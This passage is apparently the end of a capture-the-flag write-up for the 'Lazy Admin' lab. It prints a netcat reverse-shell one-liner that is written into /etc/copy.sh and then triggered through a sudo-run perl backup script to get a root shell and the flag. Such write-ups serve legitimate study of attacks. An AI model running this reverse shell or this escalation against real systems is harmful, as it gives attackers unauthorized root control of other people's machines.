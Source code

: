 Command: `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.2.2221 8888 >/tmp/f" > /etc/copy.sh`  

Once we have confirmed that our new reverse shell is calling out to our computer we can sent up a new netcat listener to port `8888` and then we fire off the pearl script.  
Command: `sudo /usr/bin/perl /home/itguy/backup.pl`
![rootShell](images/rootShell.png "rootShell")  
Now that we have root access we need to try and find out root flag. 

![rootFlag](images/rootFlag.png "rootFlag")  
And just like that we have collected the root flag and pwnd this challange. 

# Congratulations you have just completed the Lazy Admin challenge!
